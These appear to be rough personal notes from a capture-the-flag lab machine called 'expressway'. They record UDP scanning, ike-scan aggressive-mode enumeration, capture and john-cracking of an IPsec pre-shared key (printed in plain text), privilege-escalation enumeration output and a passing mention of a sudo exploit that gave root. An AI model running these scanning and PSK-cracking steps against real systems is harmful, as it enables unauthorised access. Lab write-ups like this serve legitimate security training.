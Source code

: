 ___


just 1 port? ssh?


has to be bruteforce -> hydra right not working lol

what would be the user???

express? expressway, user, adm, admin



fuckkkkk there was a udp port my scan completely didn't catch



*scanning udp ports as well with rustscan*
sudo rustscan --udp -a 10.10.11.87



*used this tool*
sudo ike-scan --aggressive 10.10.11.87


*found user though*
Type=ID_USER_FQDN, Value=ike@expressway.htb


*grabbed hash*
sudo ike-scan -A 10.10.11.87 -Ppsk_crack.txt


*convert to john hash*
python3 ikescan2john.py /home/ew/box/expressway/psk_crack.txt


*cracked PSK*
freakingrockstarontheroad (?)



*sqlite db's*
╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found /var/lib/apt/listchanges-old.db: Berkeley DB (Hash, version 9, little-endian)
Found /var/lib/fail2ban/fail2ban.sqlite3: regular file, no read permission
Found /var/lib/lastlog/lastlog2.db: SQLite 3.x database, last written using SQLite version 3046001, file counter 41, database pages 3, cookie 0x1, schema 4, UTF-8, version-valid-for 41
Found /var/lib/rpm/rpmdb.sqlite: SQLite 3.x database, last written using SQLite version 3040001, writer version 2, read version 2, file counter 2, database pages 53, cookie 0x31, schema 4, UTF-8, version-valid-for 2
Found /var/lib/wtmpdb/wtmp.db: SQLite 3.x database, last written using SQLite version 3046001, file counter 212, database pages 4, cookie 0x1, schema 4, UTF-8, version-valid-for 212



*sudo version is vulnerable ran exploit script then root shell*
